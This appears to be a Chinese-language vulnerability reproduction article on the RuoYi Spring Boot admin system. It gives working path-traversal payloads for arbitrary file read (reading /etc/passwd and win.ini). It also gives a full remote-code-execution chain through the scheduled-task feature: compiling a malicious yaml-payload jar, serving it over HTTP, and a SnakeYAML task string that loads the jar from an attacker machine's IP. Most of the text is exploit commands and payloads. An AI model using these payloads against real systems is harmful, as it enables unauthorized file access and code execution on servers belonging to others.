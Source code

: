 ![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUy8B3QLKe51gSr1Vg2qUHDoAENrzqUicKJU86iaLsDskLWkRCvevl9ECQ/640?wx_fmt=png&from=appmsg "")  
## 若依后台任意文件读取（CNVD-2021-01931）  
### 漏洞简介  
  
若依管理系统是基于springboot的权限管理系统，登录后台后可以读取服务器上的任意文件。影响版本：RuoYi<4.5.1  
### 漏洞复现  
  
POC:  
  
```
/common/download/resource?resource=/profile/../../../../etc/passwd/common/download/resource?resource=/profile/../../../../Windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwU37s0z8YI0KgS1mT1gKJ4UE9swUdEXqVuRVX45OHSiaialFBWDfvoohkg/640?wx_fmt=png&from=appmsg "")  
  
读取了D盘下的1.txt文件  
## 若依后台定时任务RCE  
### 漏洞简介  
  
由于若依后台计划任务处，对于传入的“调用目标字符串”没有任何校验，导致攻击者可以调用任意类、方法及参数触发反射执行命令。影响版本：RuoYi<4.6.2  
### 漏洞复现  
  
下载payload：  
```
https://github.com/artsploit/yaml-payload
```  
  
  
下载完成之后我们修改一下 AwesomeScriptEngineFactory.java 这个文件![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUf6m78zcWWtfmIYQ3zibdCPbCTojnFyaeuT7VoszChZWm3KuG73Hn91w/640?wx_fmt=png&from=appmsg "")  
  
(mspaint为打开画图板)  
然后切换到yaml-payload-master目录  
编写yaml-payload.yml文件（如果没有自己创建）![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUk65WD0ORDehdEvsl2diaG3gqCiagnibrw9D9U0iaa6zvG8drHfTvPy9KFg/640?wx_fmt=png&from=appmsg "")  
  
然后在该目录下执行以下命令进行编译(java环境使用的是1.8)  
```
javac src/artsploit/AwesomeScriptEngineFactory.java　　　　//编译java文件
jar -cvf yaml-payload.jar -C src/ .　　　　　　　　　　　　　//打包成jar包

```  
  
然后就会生成一个：yaml-payload.jar的jar包  
直接在yaml-payload-master目录下使用python起一个http服务。  
```
python3 -m http.server 5555
```  
  
然后进入若依后台，添加一个计划任务。  
```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://攻击机ip/yaml-payload.jar"]]]]')
```  
  